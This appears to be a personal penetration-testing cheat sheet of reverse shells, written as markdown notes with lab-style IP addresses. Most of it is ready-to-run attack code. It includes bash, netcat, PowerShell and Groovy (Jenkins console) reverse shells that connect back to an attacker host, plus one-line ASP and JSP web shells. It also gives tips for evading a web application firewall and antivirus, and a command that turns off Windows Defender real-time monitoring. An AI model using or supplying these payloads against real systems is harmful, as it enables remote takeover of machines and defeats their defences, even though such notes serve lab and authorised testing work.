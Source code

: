 ! Use 443 port to evade WAF.
#shell

#### Generator
https://www.revshells.com/
#### Powershell generator
Encrypted & Passes AV
https://github.com/Adkali/PowerJoker
```bash
git clone https://github.com/Adkali/PowerJoker && cd Powerjoker
python3 PowerJoker.py -l 10.10.16.84 -p 1337
```
#### Basic bash shell
```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.117/4444 0>&1'

echo -ne 'bash -i >& /dev/tcp/10.10.14.25/4444 0>&1' | base64

echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.70/4444 0>&1' > rev.sh
```
##### Upgrade shell to fully interactive:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty size;stty raw -echo;fg
#export SHELL=bash
#stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```
or
```bash
script /dev/null bash
```
Good shell
```
rlwrap nc -lvnp
```
#### [[metasploit]]

#### Cheatsheet
https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

#### PHP
#php
```bash
curl https://raw.githubusercontent.com/Wh1ter0sEo4/reverse_shell_php/refs/heads/main/reverse_sell.php > rsh.php
```

##### Java:
#java
https://alionder.net/jenkins-script-console-code-exec-reverse-shell-java-deserialization/

##### ASP:
#asp
```asp
<% eval request("cmd") %>
```

##### JSP:
[[jsp]] #java
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

##### Groovy (jenkins console /script):
[[groovy]]
```Groovy
String host="10.10.15.232";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

##### Socat port forwarding:
[[port forwarding]]
[[socat]] #bash #shell
Download:
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

from 8080 to 8888:
`./socat TCP-LISTEN:8888,fork TCP:127.0.0.1:8080

ssh port forwarding:
```shell-session
root@kali$ ssh -L 55553:127.0.0.1:55553 root@192.168.0.44
```

bash shells:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

powershell (run from cmd.exe):
[[powershell]]
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### Windows
Disable AV to allow running shell from admin's powershell:
```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```



!